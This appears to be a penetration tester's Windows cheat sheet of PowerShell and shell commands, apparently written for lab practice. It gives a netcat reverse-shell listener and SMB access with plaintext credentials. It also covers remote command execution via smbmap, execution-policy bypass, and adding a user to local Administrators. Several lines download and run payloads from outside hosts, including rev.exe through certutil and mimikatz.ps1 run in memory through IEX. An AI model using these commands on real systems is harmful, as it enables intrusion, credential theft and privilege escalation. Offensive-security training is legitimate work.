 ```PowerShell
Copy-Item -Path 'C:\$Recycle.Bin\<SID>\<filename>' -Destination "C:\RecoveredFiles\" # Recover files from Recycle Bin

# Check for PuTTY sessions
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

smbclient //192.168.147.122/SYSVOL -U "HARRY.EXAMPLE\fmcsorley%DeerLizardOrca213"

smbmap -u maildmz -p password123 -d boringcomp.com -H 192.168.153.191 -x "whoami"
```

```PowerShell
# Get human-readable sizes of all directories in cwd
# The intention is to spot non-empty directories quickly.
# Note: this script rounds up sizes, so that tiny files in subdirectories are obvious
Get-ChildItem -Directory | ForEach-Object { "{0,-30} {1,10:N2} MB" -f $_.Name, ([Math]::Ceiling(((Get-ChildItem -Recurse -Force -File -ErrorAction SilentlyContinue -Path $_.FullName | Measure-Object Length -Sum).Sum / 1MB * 100)) / 100) }

# Or simply
tree /f .
```
---
### Kali Listener
```bash
sudo rlwrap -cAr nc -lvnp 443
```
- Don't forget to nest the reverse shell to avoid accidents
### Basic Commands
```PowerShell
# PowerShell execution bypass (new session)
powershell -ep bypass
# PowerShell execution bypass (current session)
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
# Must be local admin. Enables WinRM
Enable-PSRemoting -Force

# Add user
net user newuser password123 /add
# Add user to group
net localgroup Administrators user1 /add
# Runas, requires GUI
runas /user:backupadmin cmd
# Runas, elevated admin powershell window
runas /user:dave3 "powershell -NoProfile -ExecutionPolicy Bypass -Command Start-Process powershell -Verb RunAs"

# Downloading (cmd.exe)
bitsadmin /transfer myDownloadJob /download /priority normal http://example.com/file.exe C:\Users\Public\file.exe
# certutil
certutil.exe -urlcache -f http://10.0.0.5/rev.exe rev.exe
curl -o file.exe http://example.com/file.exe
certreq -submit -config http://example.com/file.exe

# Downloading (PowerShell)
iwr -uri http://192.168.48.3/winPEASx64.exe -Outfile winPEAS.exe
irm "http://example.com/file.exe" -OutFile "file.exe"
# Download and run in memory (bypass UAC)
IEX (New-Object Net.WebClient).DownloadString('http://example.com/mimikatz.ps1')
Start-BitsTransfer -Source "http://example.com/file.exe" -Destination "file.exe"
# Download and run in memory, preferred
```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami